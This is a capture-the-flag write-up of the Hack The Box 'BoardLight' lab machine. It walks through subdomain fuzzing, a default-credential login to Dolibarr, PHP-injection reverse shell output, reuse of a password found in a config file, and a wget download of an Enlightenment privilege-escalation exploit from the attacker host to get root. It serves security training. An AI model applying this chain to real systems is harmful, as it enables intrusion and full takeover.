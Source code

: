 # HTB: BoardLight

---
title:  "HTB BoardLight Writeup"
date:   2024-05-26 00:30:00 
categories: HTB Machine
tags: Default_user_pass PHP Code Injection Binary_exploitation CVE
---


## Shell as www-data


### Enumeration

```
─# nmap -sC -sV -p- -T4 --min-rate=9326 --vv board.htb           
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-26 10:51 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 10:51
Completed NSE at 10:51, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:51
Completed NSE at 10:51, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:51
Completed NSE at 10:51, 0.00s elapsed
Initiating Ping Scan at 10:51
Scanning board.htb (10.10.11.11) [4 ports]
Completed Ping Scan at 10:51, 0.28s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:51
Scanning board.htb (10.10.11.11) [65535 ports]
Discovered open port 22/tcp on 10.10.11.11
Discovered open port 80/tcp on 10.10.11.11
```

only port 22,80 are open so that's nothing maybe i'll try enum using subdo enum because on board.htb only landing page so i think the vulnerability on subdomain board.htb



```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://board.htb" -H "HOST: FUZZ.board.htb" -c -fs 15949

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15949
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 268ms]
web3452                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 329ms]
web4000                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 334ms]
wishlist                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 332ms]
```

Now add `crm.board.htb` in /etc/hosts


### Identify Vulnerability


![](https://0xwhoami35.github.io/images/Boardlight/2024-05-26-23-08-36.png)

The Version of Dolibar is 17.0 so let we research about this vendor to see the vendor vulnerable or not

![](https://0xwhoami35.github.io/images/Boardlight/2024-05-26-23-10-03.png)


 In Dolibarr 17.0.0 with the CMS Website plugin (core) enabled, an authenticated attacker can obtain remote command execution via php code injection bypassing the application restrictions.

 The CMS are vulnerable PHP Code injection but it's authenticated 

 ```
 The default username and password for Dolibarr, a popular open-source ERP and CRM software, often depend on how it was installed and set up. However, the typical default credentials are:

    Username: admin
    Password: admin
```

as you can see here the user pass default is admin .

After i put that's credentials , i successfully login to dashboard

### PHP Code Injection
Now click `Website`and > click `+` > and create your site > Import website template > Click Load anything template it's ok > Edit page
> and put your php revshell code


![](https://0xwhoami35.github.io/images/Boardlight/2024-05-26-23-56-38.png)


And click saved


```
└─# nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.110] from (UNKNOWN) [10.10.11.11] 46260
Linux boardlight 5.15.0-107-generic #117~20.04.1-Ubuntu SMP Tue Apr 30 10:35:57 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 08:55:52 up 40 min,  4 users,  load average: 0.62, 0.46, 0.52
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (856): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



## Shell as larissa

After i research on google about "Where the location Dolibarr default config" i got this page

[Dolibar Config Location](https://wiki.dolibarr.org/index.php?title=Configuration_file)

### Login larissa user using mysql config dolibarr
```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

the path is `conf/conf.php`

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su larissa
su larissa
Password: serverfun2$2023!!
id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
```


## Shell as root

```
find / -perm -04000 -ls 2>/dev/null 
     2491     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
      608     16 -rwsr-sr-x   1 root     root        14488 Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
    17633     28 -rwsr-xr-x   1 root     root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
    17628     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
    17627     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
    17388     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
     2368     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     5278    468 -rwsr-xr-x   1 root     root         477672 Jan  2 09:13 /usr/lib/openssh/ssh-keysign
    10039    388 -rwsr-xr--   1 root     dip          395144 Jul 23  2020 /usr/sbin/pppd
```

Do you see what i see?? yupp that's enlightenment binary , i had saw about this binary vulnerability a few month ago and also have tried to download this binary in my ubuntu and trying to priv esc and it's working
### CVE-2022-37706-LPE-exploit
[CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)


```
wget http://10.10.14.110:8000/eng.sh
--2024-05-26 08:47:03--  http://10.10.14.110:8000/eng.sh
Connecting to 10.10.14.110:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 707 [text/x-sh]
Saving to: ‘eng.sh’

     0K                                                       100% 41.3M=0s

2024-05-26 08:47:04 (41.3 MB/s) - ‘eng.sh’ saved [707/707]

bash eng.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
```
